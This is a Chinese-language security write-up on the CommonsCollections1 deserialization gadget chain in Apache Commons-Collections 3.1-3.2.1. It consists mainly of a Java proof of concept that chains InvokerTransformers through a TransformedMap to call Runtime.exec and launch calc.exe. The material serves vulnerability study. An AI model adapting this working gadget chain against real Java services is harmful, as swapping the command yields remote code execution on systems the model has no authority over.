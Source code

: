 ## CommonsCollections1

### 版本适用范围

Commons-Collections 3.1-3.2.1

Java JDK < 8u71

### TransformerMap链

#### PoC展示

这是一段PoC，运行后会弹出一个计算器。

```java
package org.example.cc;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1 {

    public static void main(String[] args) throws Exception {
        //此处构建了一个transformers的数组，在其中构建了任意函数执行的核心代码
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };

        //将transformers数组存入ChaniedTransformer这个继承类
        Transformer transformerChain = new ChainedTransformer(transformers);

        //创建Map并绑定transformerChina
        HashMap<Object, Object> innerMap = new HashMap();
        innerMap.put("value", "hack");
        //给予map数据转化链
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);  
        Map.Entry onlyElement = (Map.Entry) outerMap.entrySet().iterator().next();
		//触发漏洞
        onlyElement.setValue("foobar");
    }
}
```
